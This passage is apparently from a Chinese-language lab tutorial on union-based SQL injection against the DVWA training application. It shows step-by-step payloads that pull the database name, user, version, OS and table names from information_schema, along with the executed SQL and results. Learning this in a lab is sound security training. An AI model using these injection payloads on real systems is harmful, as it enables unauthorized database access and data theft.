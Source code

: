 **由此可知，users 表中只有两个字段，数据为两列。**

接下来我们使用 `union select`联合查询继续获取信息。

union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。

输入`1' union select database(),user()#`进行查询 ：

- database() 将会返回当前网站所使用的数据库名字.
- user() 将会返回执行当前查询的用户名.

实际执行的 Sql 语句是 :

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#`;

```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid454817labid3179timestamp1499673110659.png/wm)

通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa .
- 当前执行查询用户名为 root@localhost .

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的 Sql 语句是:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;

```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid454817labid3179timestamp1499673988773.png/wm)

通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。

`information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息, 如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：

实际执行的 Sql 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;

```
